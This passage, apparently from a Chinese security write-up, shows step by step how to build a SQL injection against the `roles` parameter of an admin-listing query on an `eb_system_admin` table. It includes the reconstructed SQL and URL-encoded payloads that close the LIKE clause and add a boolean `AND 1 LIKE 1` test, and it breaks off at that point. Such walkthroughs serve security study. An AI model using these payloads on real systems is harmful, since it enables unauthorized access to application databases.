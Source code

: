 先把SQL语句扣下来，格式化下语法结构。  

```
SELECT * 
FROM 
`eb_system_admin` 
WHERE
( CONCAT(',',roles,',')  LIKE '%,111111111111',%' )  
AND
`is_del` = :ThinkBind_1_114815451_  
AND
`level` = :ThinkBind_2_293448294_ LIMIT 0,20 
```

  
像这种LIKE注入一定要注意他原本的格式，先把注入点前后语法补齐，然后插入
```
and
```

  
或者
```
or
```

  
。  
  
先补齐前后语法，通过AND配合语法格式在注入点将语句前后都补齐。  
  

```
aaaaaaaa,%')+AND+(CONCAT(',',roles,',')+LIKE+'%,aaaaaaaa
```

  

```
SELECT * 
FROM 
`eb_system_admin` 
WHERE
(CONCAT(',',roles,',') LIKE '%,aaaaaaaa,%')
AND 
(CONCAT(',',roles,',') LIKE '%,aaaaaaaa,%')  
AND
`is_del` = :ThinkBind_1_114815451_  
AND
`level` = :ThinkBind_2_293448294_ LIMIT 0,20 
```

  
完美，我们把payload赋给roles参数，发包看一下。  
  
![1747185194_6823ee2a6bff3bd8e33fd.jpg!small?1747185196106](https://mmbiz.qpic.cn/sz_mmbiz_jpg/b7iaH1LtiaKWXB4gLbciaqUMetw3YufLSibB61G49H8TFbx3m2qhwKQ02dERU7jwanFsUrfMWGNMUcg91Os4OFpXRw/640?wx_fmt=jpeg&from=appmsg "")  
  
不报错了，说明前后语法已经被完美闭合。接下来，我们再加一个AND，  
  

```
aaaaaaaa,%')+AND+1+LIKE+1+AND+(CONCAT(',',roles,',')+LIKE+'%,aaaaaaaa
```
